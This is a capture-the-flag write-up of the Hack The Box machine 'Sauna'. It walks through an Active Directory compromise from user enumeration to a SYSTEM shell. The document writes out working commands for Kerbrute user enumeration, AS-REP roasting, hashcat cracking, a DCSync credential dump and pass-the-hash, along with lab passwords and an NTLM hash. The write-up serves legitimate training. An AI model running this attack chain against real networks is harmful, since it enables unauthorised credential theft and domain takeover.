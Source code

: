 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Sauna (10.10.10.175)

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these employees' names and create a list with all possible usernames for everyone on the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" tocreate a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Now that we have a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication, and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration

For Post-Compromise Enumeration, we can use tools such as "_BloodHound_" or "_PlumHound_".

Let's use BloodHound in this case.

#### BloodHound

Running BloodHound's ingestor on the target:

```bash
bloodhound-python -d egotistical-bank.local -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all
```

Now we run BloodHound:

```bash
sudo neo4j console

sudo bloodhound
```

Next, we import our data into BloodHound and analyze the results:

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>hsmith is a kerberoastable account</p></figcaption></figure>

Despite "_hsmith_" being a "kerberoastable" user, this account won't get us any further due to the fact it has fewer privileges than the "_fsmith_" account.

However, the SVC\_LOANMGR can perform a DCSync attack on the Domain Controller:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>DCSync Attack Capability</p></figcaption></figure>

So this user is high value if we're able to grab his credentials.

Let's go back to our shell and run winPEAS on the target to see if we can find anything interesting:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>svc_loanmanager credentials</p></figcaption></figure>

We have a plain text password for the user "_svc\_loanmgr_"



### Exploitation

Now that we have a valid set of credentials for the account svc\_loanmmgr, we can try to perform the DCSync attack we previously found this account was able to do.

To do this, we'll use "_secretsdump_":

```bash
secretsdump.py egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

This should dump all of the SAM Hashes for every user of that machine:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>SAM Dump</p></figcaption></figure>

Now we just try to crack the Administrator's hash:

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Hashcat couldn't crack the hash</p></figcaption></figure>

As we can see, our wordlist doesn't have the password that matches this hash. So, we'll need to take a different approach.&#x20;

We can try and perform a "_Pass-The-Hash_" attack, where we don't need to provide a password to log in as the user. In this attack, instead of providing a password for login, we'll provide the Hash and still be able to login:

```bash
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>We're system on the machine</p></figcaption></figure>



### Root Flag

Once we have system on the machine, we can simply navigate to the Administrator's desktop, where we'll find the Root Flag:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!

